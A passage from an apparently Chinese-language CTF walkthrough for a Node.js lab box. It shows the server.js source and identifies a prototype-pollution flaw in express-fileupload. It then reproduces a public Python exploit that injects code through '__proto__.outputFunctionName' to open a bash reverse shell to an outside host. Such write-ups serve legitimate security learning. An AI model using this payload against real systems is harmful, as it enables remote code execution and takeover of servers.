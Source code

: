 ```
cat server.js
```

![image-20211104101352160](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211104101352160.png)

>const express = require('express');
>const fileupload = require("express-fileupload");
>const http = require('http')
>
>const app = express();
>
>app.use(fileupload({ parseNested: true }));
>
>app.set('view engine', 'ejs');
>app.set('views', "/opt/chronos-v2/frontend/pages");
>
>app.get('/', (req, res) => {
>   res.render('index')
>});
>
>const server = http.Server(app);
>**const addr = "127.0.0.1"**         #reason：为什么扫描的时候没有扫描到8080端口 answer：因为Web应用只有在本机才能访问
>**const port = 8080;**
>server.listen(port, addr, () => {
>   console.log('Server listening on ' + addr + ' port ' + port);
>});

### 3.搜索大法好

express-fileupload漏洞

百度：[流行的Node.js库中存在原型污染漏洞，可致Web应用程序遭受DoS和远程Shell攻击_Posix (sohu.com)](https://www.sohu.com/a/412389503_100002744)

Google：https://blog.p6.is/Real-World-JS-1/

**发现EXP**

>import requests
>
>cmd = 'bash -c "bash -i &> /dev/tcp/p6.is/8888 0>&1"'
>
>#pollute
>
>requests.post('http://p6.is:7777', files = {'__proto__.outputFunctionName': (
>    None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
>
>#execute command
>
>requests.get('http://p6.is:7777')
>

kali:
